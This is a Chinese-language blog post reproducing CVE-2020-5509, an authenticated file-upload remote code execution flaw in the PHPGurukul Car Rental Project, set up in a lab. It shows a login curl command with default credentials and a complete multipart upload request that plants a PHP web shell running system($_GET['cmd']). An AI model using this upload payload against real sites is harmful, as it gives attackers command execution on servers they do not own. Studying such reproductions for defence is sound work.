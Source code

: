 ```yaml
---
title: CVE-2020-5509 Repetition
published: true
---
```

# [](#header-1)零.前言:
下午在Github上逛,找代码学习,突然瞥到CVE-2020-5509,看到了外国友人写的POC
原址:https://github.com/FULLSHADE/CVE-2020-5509-POC
于是搭建了环境,进行复现!
# [](#header-2)一.环境搭建:
搭建环境:
```
Windows server 2012 R2 阿帕奇 PHP7.5
```
官方源码:https://phpgurukul.com/car-rental-project-php-mysql-free-download/
搭建时需要新建一个数据库,然后将官方给的.sql数据文件导入到那个库里!
之后配置config.php信息,(要配置两个,一个是\includes\config.php,一个是\admin\config.php)
搭建完成图:
![](https://m4tir.github.io/cve-2020-5509/1.png) 
之后就可以开始愉快地复现了!
# **二.复现过程:**
我们先用国外人写的poc打一下靶场:
```
python CVE-2020-5509.py 192.168.1.5(目标ip)
```
![](https://m4tir.github.io/cve-2020-5509/2.png) 
```
[!] Failed to authenticate
```
**难道失败了?我重新看了一遍国外人写的poc,原来有处坑!**
![](https://m4tir.github.io/cve-2020-5509/3.png) 
```
/carrentalproject/carrental/admin/changeimage1.php ##我们实际上是搭建在根目录的，不知道他这个/carrentalproject/carrental/目录是怎么来的，正是因为如此，才会获取不到tok值!
```
我们改一下poc!
![](https://m4tir.github.io/cve-2020-5509/4.png) 
**ba把路径中的/carrentalproject/carrental去掉,再试试!**
![](https://m4tir.github.io/cve-2020-5509/5.png) 
**ok，成功了!(但是它的终端有点奇怪,不管他)**
**国外友人的工具我用的不适手,于是便打算自己写一个图形化的工具!**
# **三.工具编写(.e):**
**话不多说，先构建界面,再导入一个精易模块:**
![](https://m4tir.github.io/cve-2020-5509/6.png) 
**然后双击"Getshell"按钮，进入代码界面!**
**Getshell的第一步是要获取到Cookie，来进行鉴权文件上传!**
![](https://m4tir.github.io/cve-2020-5509/7.png) 
```
curl -H "http://website/admin/index.php/" -D "username=admin&password=Test@12345&login="
```
**然后就通过鉴权文件上传来进行getshell**
![](https://m4tir.github.io/cve-2020-5509/8.png) 
**上传包:**
```
--I am lonely
Content-Disposition: form-data; name="img1"; filename="test.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]); ?>
--I am lonely
Content-Disposition: form-data; name="update"

--I am lonely

```
**协议头:**
```
Content-Type: multipart/form-data; boundary="I am lonely"
```
然后尝试一下:
![](https://m4tir.github.io/cve-2020-5509/9.png) 
**成功上传!**
**源码就不发了,因为所有代码就这几行:**
![](https://m4tir.github.io/cve-2020-5509/10.png) 
**end！**

参考文章:
```
https://www.anquanke.com/vul/id/1894422
https://govanguard.com/threat-center/2020/01/13/car-rental-project-1-0-remote-code-execution/
http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202001-437
```
